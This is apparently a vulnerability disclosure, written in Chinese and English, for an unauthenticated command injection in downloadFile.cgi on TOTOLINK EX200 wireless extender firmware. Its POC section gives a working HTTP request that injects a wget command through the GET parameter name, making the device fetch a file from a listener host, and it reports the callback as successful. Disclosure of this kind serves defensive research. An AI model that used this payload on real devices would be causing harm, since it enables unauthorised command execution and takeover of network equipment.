



# ToTolink EX200 Comand Injection

#### Venda && Firmware_link

ToTolink EX200 http://totolink.net/home/menu/detail/menu_listtpl/download/id/144/ids/36.html

link :http://totolink.net/data/upload/20210428/7979e841521515eb83b45aacf5b67f9a.zip

Firmware_link :V4.0.3c.7646_B20201211

#### Describe

​	downloadFlile.cgi二进制文件在接收GET参数时存在命令注入漏洞，可以构造参数名进行未经身份验证的命令执行

​	 The downloadFile.cgi binary file has a command injection vulnerability when receiving GET parameters. The parameter name can be constructed for unauthenticated command execution



​	在downloadFile这个cgi程序中QUERY_STRING环境变量为GET请求的参数内容，所以可以控制参数名称进行命令的注入

​	In the downloadFile cgi program, the QUERY_STRING environment parameter variable is the content of the GET request, so the parameter name can be controlled for command injection

#### POC

```
GET /cgi-bin/downloadFlile.cgi?;wget${IFS}http://192.168.0.111:801/mm.txt;=hahah HTTP/1.1

Host: 192.168.0.254

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

#### TEXT

​	本地监听801端口，浏览器访问如下网址

​	 Listen to port 801 locally, and the browser accesses the following URL 



​	可以看到无线扩展器已经成功连接到本地端口801	

​	can see that the wireless extender has successfully connected to the local port 801


